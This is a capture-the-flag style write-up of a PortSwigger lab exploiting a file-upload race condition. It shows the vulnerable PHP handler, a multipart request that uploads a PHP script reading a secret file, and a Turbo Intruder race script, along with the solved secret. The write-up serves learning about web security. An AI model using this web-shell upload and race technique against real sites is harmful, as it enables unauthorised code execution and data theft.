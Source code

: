 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/914556ea-6f29-45f9-a758-f4299e8aff18)

The vulnerable code that introduces this race condition is as follows:

```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```
## Overview :

 Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.

That said, developers sometimes implement their own processing of file uploads independently of any framework. Not only is this fairly complex to do well, it can also introduce dangerous race conditions that enable an attacker to completely bypass even the most robust validation.

For example, some websites upload the file directly to the main filesystem and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware. This may only take a few milliseconds, but for the short time that the file exists on the server, the attacker can potentially still execute it. 

## Solution :

In the source code in the HINT, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed. 


When we upload a jpg or png image, it is sucessfully uploaded but when we upload a php file it is not.

The request sent when uploading the file is as follows,

```http
POST /my-account/avatar HTTP/2
Host: 0ad000ee03ff349488b6ffd300a70063.web-security-academy.net
Cookie: session=D3xgs3pRL7IRTGBSbWYVm062htgTuqyM
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------347008415039430862643146782233
Content-Length: 543
Origin: https://0ad000ee03ff349488b6ffd300a70063.web-security-academy.net
Referer: https://0ad000ee03ff349488b6ffd300a70063.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------347008415039430862643146782233
Content-Disposition: form-data; name="avatar"; filename="read.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------347008415039430862643146782233
Content-Disposition: form-data; name="user"

wiener
-----------------------------347008415039430862643146782233
Content-Disposition: form-data; name="csrf"

14YoiPx7PojQdqNsQczy8HdKntOfFmOb
-----------------------------347008415039430862643146782233--
```

Send the request to **Turbo Intruder**.

Paste the following python code -

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

In the script, replace

- `<YOUR-POST-REQUEST>` with the entire POST request (**POST /my-account/avatar**)
- `<YOUR-GET-REQUEST>` with the entire GET request (**GET /files/avatars/read.php**)

The final payload - 

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''POST /my-account/avatar HTTP/2
Host: 0ad000ee03ff349488b6ffd300a70063.web-security-academy.net
Cookie: session=D3xgs3pRL7IRTGBSbWYVm062htgTuqyM
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------347008415039430862643146782233
Content-Length: 543
Origin: https://0ad000ee03ff349488b6ffd300a70063.web-security-academy.net
Referer: https://0ad000ee03ff349488b6ffd300a70063.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------347008415039430862643146782233
Content-Disposition: form-data; name="avatar"; filename="read.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------347008415039430862643146782233
Content-Disposition: form-data; name="user"

wiener
-----------------------------347008415039430862643146782233
Content-Disposition: form-data; name="csrf"

14YoiPx7PojQdqNsQczy8HdKntOfFmOb
-----------------------------347008415039430862643146782233--
'''

    request2 = '''GET /files/avatars/read.php HTTP/2
Host: 0ad000ee03ff349488b6ffd300a70063.web-security-academy.net
Cookie: session=D3xgs3pRL7IRTGBSbWYVm062htgTuqyM
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers

'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

Click on **ATTACK** to start the attack.

In the results list, there some of the **GET requests received a 200 response** containing Carlos's secret. T**hese requests hit the server after the PHP file was uploaded, but before it failed validation and was deleted**. 


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9bad09c4-2884-4194-b49d-e3efe6f2cc5a)

Submit hte secret to solve the lab.

SECRET - `2ytyOEzFnkFGyh9rKrJvEZHqBZs0p534`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c98da30c-f466-4741-b2c7-6c7967102c7d)

